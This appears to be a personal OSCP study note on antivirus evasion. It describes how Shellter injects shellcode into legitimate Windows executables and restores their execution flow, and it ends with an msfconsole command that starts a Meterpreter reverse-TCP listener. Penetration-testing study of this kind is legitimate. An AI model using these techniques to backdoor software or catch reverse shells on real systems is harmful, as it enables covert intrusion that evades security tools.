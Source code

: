 ```yaml
---
aliases:
  - Automation of Antivirus Bypass Process
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - antivirus
  - av_evasion
  - bypass
  - automation
author: Mehdi N Tehrani
creat_date: 2023-12-30
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Shellter
#Shellter #shell_code
[Shellter](https://www.shellterproject.com/) is a dynamic shell code injection tool and one of the most popular free tools capable of bypassing antivirus software. It uses a number of novel and advanced techniques to backdoor a valid and non-malicious executable file with a malicious shell code payload.
It performs a thorough analysis of the target PE file and the execution paths. It then determines where it can inject our shell code without relying on traditional injection techniques that are easily caught by AV engines. Those include *changing of PE file section permissions*, *creating new sections*, etc.
Attempts to use the existing [PE Import Address Table (IAT)](https://en.wikipedia.org/wiki/Portable_Executable#Import_Table) entries to locate functions that will be used for the memory allocation, transfer, and execution of our payload.
[Shellter FAQ](https://www.shellterproject.com/faq/)
## Target selection hints
https://www.shellterproject.com/an-important-tip-for-shellter-usage/
## Stealth mode
Stealth Mode will attempt to restore the execution flow of the PE after our payload has been executed.
In order to restore the execution flow through the Stealth Mode option, custom payloads need to terminate by exiting the current thread.

# Meterpreter listener
#meterpreter #listener #meterpreter_listener
```sh
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <ip>;set LPORT <port>;run;"
```

